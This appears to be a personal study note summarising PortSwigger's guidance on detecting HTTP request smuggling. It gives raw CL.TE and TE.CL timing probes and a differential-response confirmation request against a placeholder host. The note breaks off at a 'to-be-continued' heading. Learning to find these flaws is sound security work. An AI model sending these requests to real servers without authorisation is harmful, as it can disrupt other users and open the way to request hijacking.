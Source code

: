 #http 
#request-smuggling 
# Timing techniques

Send request that will cause a time delay. #burp scanner works the same way.

# Finding [[HTTP RS Attacks#CL.TE]]
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Front-end server uses `Content-Length` and omits `X`. Back-end server uses `TE` processing the first chunk and waits for the next.

# Finding [[HTTP RS Attacks#TE.CL]]
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Front-end will omit `X`, Back-end server expects more content tin the body and waits for the remaining.
The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability.

# Confirming vulns using differential responses
This involves sending two requests to the application in quick succession:
- An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.

Normal request:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

## Confirming [[HTTP RS Attacks#CL.TE]]
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
If the attack is successfull, then the last two lines are treated by back-end server as belonging to the next request that is received:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request contains an invalid URL, the server will respond 404.
### Confirming TE.CL vulnerabilities using differential responses
#to-be-continued 
https://portswigger.net/web-security/request-smuggling/finding